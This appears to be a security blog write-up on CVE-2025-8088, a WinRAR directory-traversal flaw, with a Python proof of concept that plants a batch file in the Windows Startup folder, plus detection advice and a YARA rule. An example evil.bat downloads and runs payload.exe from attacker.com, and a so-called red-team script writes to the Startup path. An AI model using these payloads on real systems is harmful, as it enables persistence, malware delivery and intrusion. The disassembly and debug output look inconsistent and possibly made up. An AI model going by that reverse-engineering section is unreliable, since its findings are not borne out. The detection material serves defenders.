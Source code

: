 ```yaml
---
title: "CVE-2025-8088: WinRAR Directory Traversal RCE"
layout: post
tags: [WinRAR, CVE-2025-8088, directory traversal, exploit, malware, reverse engineering, cybersecurity, red-team, pentest, nullsecurityx]
image: /assets/images/cve-2025-8088-winrarrce.jpg
category: cve
---
```


# CVE-2025-8088: WinRAR Directory Traversal → Remote Code Execution

CVE-2025-8088 is a **critical vulnerability** in WinRAR's archive extraction mechanism. 
This flaw allows attackers to use specially crafted `.rar` archives to **extract files into arbitrary directories** on the victim's system, potentially leading to **Remote Code Execution (RCE)**.

---

## 1️⃣ Technical Mechanism

WinRAR's `ExtractFile()` function does not properly sanitize file paths containing **path traversal sequences (`../`)**. 
An attacker can place a malicious file into `../../../../AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/evil.bat`.

When the user extracts the archive, the malicious file is written to the **Windows Startup folder**, executing automatically on reboot.

### Core Issue:
`ExtractFile()` attempts to normalize paths but **fails to prevent directory traversal**.

---

## 2️⃣ Malicious Archive Structure

```text
evil.rar
 ├── readme.txt
 └── ../../../../AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/evil.bat
```
- `readme.txt` → benign appearance
- `evil.bat` → malicious payload executed at startup

---

## 3️⃣ Proof of Concept (PoC)

### Python Example (ZIP for demonstration)
```python
from zipfile import ZipFile
import os

payload = '@echo off
echo Malicious code executed!
pause
'

os.makedirs("build", exist_ok=True)
with open("build/evil.bat", "w") as f:
    f.write(payload)

with ZipFile("evil.zip", "w") as archive:
    archive.write("build/evil.bat",
        "../../AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/evil.bat")
```
> Note: ZIP is used for demonstration. Real attackers use RAR CLI or specialized libraries.

---

## 4️⃣ Exploit Scenario

1. Attacker sends malicious archive via email or social engineering.
2. Victim extracts the archive → `evil.bat` lands in Startup folder.
3. On next reboot, `evil.bat` executes.
4. Example `evil.bat` content:
```bat
@echo off
powershell -c "Invoke-WebRequest -Uri http://attacker.com/payload.exe -OutFile %TEMP%\p.exe; Start-Process %TEMP%\p.exe"
```

---

## 5️⃣ Red-Team Automation Script
```javascript
import fs from 'fs';

const traversalPath = "../../AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/evil.bat";
fs.writeFileSync(traversalPath, "echo Exploit successful!");
console.log("[+] Payload written to startup folder");
```
> Lab use only.

---

## 6️⃣ Detection & Blue Team Perspective

**Detection:**
- EDR/AV: Unexpected files in Startup folder.
- SIEM: `WinRAR.exe` creating files in sensitive directories.
- Yara: Detect `../` sequences in archive paths.

**Mitigation:**
- Update to WinRAR 7.13 or higher.
- Monitor Startup folder for unexpected files.
- Educate users on not opening untrusted archives.
- Apply mail gateway checks for suspicious `.rar`/`.zip` files.

---

## 7️⃣ Hacker Perspective

- **Entry Point:** Malicious `.rar` archive
- **Technique:** Directory Traversal → Startup persistence
- **Outcome:** Remote Code Execution
- **Red-Team Benefit:** Persistent access, malware delivery
- **Blue-Team Priority:** Patching + Startup monitoring

---

## 8️⃣ Reverse Engineering – Path Traversal Analysis

Vulnerability resides in WinRAR's `Unpack.cpp` → `ExtractFile()` function. Path normalization (`NormalizePath()`) fails to prevent `..` sequences.

### IDA Disassembly Snippet
```asm
.text:00419A10 push    ebp
.text:00419A11 mov     ebp, esp
.text:00419A13 push    esi
.text:00419A14 push    edi
.text:00419A15 mov     esi, [ebp+src]
.text:00419A18 mov     edi, [ebp+dst]
loop_next_char:
.text:00419A1B lodsb
.text:00419A1C test    al, al
.text:00419A1E jz      done
.text:00419A20 cmp     al, 2Eh
.text:00419A22 jnz     store_char
.text:00419A24 cmp     byte ptr [esi], 2Eh
.text:00419A27 jnz     store_char
.text:00419A29 add     esi, 1
.text:00419A2C jmp     loop_next_char
store_char:
.text:00419A2E stosb
.text:00419A2F jmp     loop_next_char
done:
.text:00419A31 mov     al, 0
.text:00419A33 stosb
.text:00419A34 pop     edi
.text:00419A35 pop     esi
.text:00419A36 pop     ebp
.text:00419A37 retn
```

**Analysis:**
- `..` sequences are partially checked but not prevented.
- Result: `CreateFile()` writes file to Startup folder.

### Debug Example
```
esi = "....\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\evil.bat"
edi = buffer (dst)
NormalizePath output: "..\..\..\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\evil.bat"
```
- Traversal not blocked → exploit succeeds.

---

## 9️⃣ Combined PoC + RE Conclusion

- **Code Level:** Traversal not sanitized
- **Outcome:** File placed in Startup folder
- **Exploit Chain:** Malicious archive → NormalizePath → CreateFile → Startup persistence

---

## 🔟 Blue Team IOC & Yara Example

**IOC:**
- Archive containing `..\..\..\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`
- `WinRAR.exe` → `CreateFileW()` call to Startup folder

**Yara Rule:**
```yara
rule WinRAR_DirectoryTraversal {
    meta:
        description = "Detects WinRAR archives with directory traversal payloads"
        author = "BlueTeam"
        cve = "CVE-2025-8088"
    strings:
        $traversal = "..\..\..\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
    condition:
        $traversal
}
```
NullSecurityX
**DEMO:**
![Demo GIF](assets/images/demo.gif)


---


